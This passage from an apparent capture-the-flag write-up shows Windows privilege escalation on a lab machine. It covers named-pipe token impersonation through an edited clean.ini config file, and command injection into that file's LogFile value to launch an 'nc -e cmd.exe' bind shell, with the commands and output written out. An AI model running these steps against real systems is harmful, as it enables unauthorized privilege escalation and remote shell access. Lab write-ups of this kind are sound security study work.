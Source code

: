     PS hackback\simple@HACKBACK spool> UPLOAD pipe.ps1 \windows\system32\spool\drivers\color\df.ps1
    Uploading pipe.ps1 to \windows\system32\spool\drivers\color\p.ps113016 bytes of 13016 bytes copied
    OK

    PS hackback\simple@HACKBACK Documents> UPLOAD df.bat \windows\system32\spool\drivers\color\df.bat
    Uploading df.bat to \windows\system32\spool\drivers\color\df.bat88 bytes of 88 bytes copied
    OK



Now I'll change `clean.ini` to write to the pipe, and then start the ps1
server:



    PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=\\.\pipe\dummypipe`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini

    PS hackback\simple@HACKBACK scripts> . \windows\system32\spool\drivers\color\df.ps1
    Waiting for connection on namedpipe:dummypipe



After a few minutes, I get a connection:



    ImpersonateNamedPipeClient: 1                                                      
    user=HACKBACK\hacker                                       
    OpenThreadToken:True                                                     
    True                                                      
    CreateProcessWithToken: False  1058  
    PS hackback\simple@HACKBACK scripts>



I can now connect to the waiting shell:



    root@kali# rlwrap proxychains nc 127.0.0.1 4444
    ProxyChains-3.1 (http://proxychains.sf.net)
    Microsoft Windows [Version 10.0.17763.292]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    hackback\hacker



### Command Injection in clean.ini - Alternative Path

Thinking back to the scripts that are running, I can hypothesize that
`dellog.ps1` is setting some variable (I'll say `$out`) to the log value
in `clean.ini`, and then running something like
`[command to get content for log] | $out`. If that is the case, I may be
able to inject by adding `& [command]` to the definition.

I'll inject in `clean.ini` to open a `nc` listener on the host:



    PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini

